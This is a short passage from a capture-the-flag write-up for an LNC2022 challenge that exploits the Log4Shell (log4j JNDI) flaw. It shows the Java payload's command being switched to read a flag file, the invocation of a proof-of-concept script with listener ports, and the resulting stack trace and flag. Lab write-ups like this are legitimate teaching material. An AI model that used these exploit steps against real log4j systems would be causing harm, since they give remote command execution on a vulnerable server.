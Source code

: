   Let's change 
 `Process p = Runtime.getRuntime().exec("ls task");`

  to
  `Process p = Runtime.getRuntime().exec("cat task/flag.txt");`
  
   Again:
  **Note:** We must disconnect the python program and connect again (Ctrl+c)
  (the one started with  `python3 poc.py --userip localhost --webport 8000 --lport 9001` )
  
  
  We got the flag!
  
  ```
  Exception: LNC2022{b94ec2015978e809b02a6a011970ada8},]; remaining name 'a'
	at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1120)
	at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:223)
	at org.apache.logging.log4j.core.
  ```
  
  Flag:
  ```
   LNC2022{b94ec2015978e809b02a6a011970ada8}
  ```
